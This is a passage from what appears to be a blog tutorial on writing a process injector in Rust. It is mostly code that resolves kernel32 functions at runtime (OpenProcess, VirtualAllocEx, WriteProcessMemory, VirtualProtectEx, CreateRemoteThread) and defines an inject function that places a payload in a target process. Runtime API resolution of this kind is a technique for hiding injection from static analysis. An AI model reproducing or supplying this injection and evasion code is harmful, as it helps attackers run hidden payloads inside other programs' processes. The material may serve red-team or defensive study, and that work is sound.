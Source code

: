 ```rust
) -> BOOL;

type CreateRemoteThreadApi = unsafe extern "system" fn(
    HANDLE,
    *const SECURITY_ATTRIBUTES,
    usize,
    LPTHREAD_START_ROUTINE,
    *const ::core::ffi::c_void,
    u32,
    *mut u32,
) -> HANDLE;
```

I changed the **get_pid** and the **inject** functions in order to return a **Result**, because of this I used the **?** operator in the expression that returns a **Result** (as **GetModuleHandleA** and **transmute**), in this way we can handle all the errors in the **main** function.

```rust
fn find_pid(target_process_name: &str) -> Result<u32, Error>
fn inject(pid: u32, payload_ptr: *const c_void, payload_len: usize) -> Result<(), Error>
```

The **main** function was changed too, you can see the full code at the end of the blog post.

At this point we can get the kernel32 handle with **GetModuleHandleA**, if everything is ok the **kernel32_module_handle** variable will have the module address otherwise the **main** function will handle the error.

```rust
let kernel32_module_handle: HMODULE =
            GetModuleHandleA(PCSTR::from_raw("kernel32.dll\0".as_ptr()))?;
```

For each WinAPI, we must create a variable of the **type** we defined before and **transmute** the address returned by our **resolve_api** function.

```rust
create_toolhelp32_snapshot = transmute(resolve_api(
            kernel32_module_handle,
            "CreateToolhelp32Snapshot\0",
        )?);
        process32_first = transmute(resolve_api(
            kernel32_module_handle,
            "Process32First\0",
        )?);
        process32_next = transmute(resolve_api(kernel32_module_handle, "Process32Next\0")?);
        close_handle = transmute(resolve_api(kernel32_module_handle, "CloseHandle\0")?);

let open_process: OpenProcessFunc = transmute(resolve_api(kernel32_module_handle, "OpenProcess\0")?);
        virtual_alloc_ex = transmute(resolve_api(
            kernel32_module_handle,
            "VirtualAllocEx\0",
        )?);

        write_process_memory = transmute(resolve_api(
            kernel32_module_handle,
            "WriteProcessMemory\0",
        )?);

        virtual_protect_ex = transmute(resolve_api(
            kernel32_module_handle,
            "VirtualProtectEx\0",
        )?);
        create_remote_thread = transmute(resolve_api(
            kernel32_module_handle,
            "CreateRemoteThread\0",
```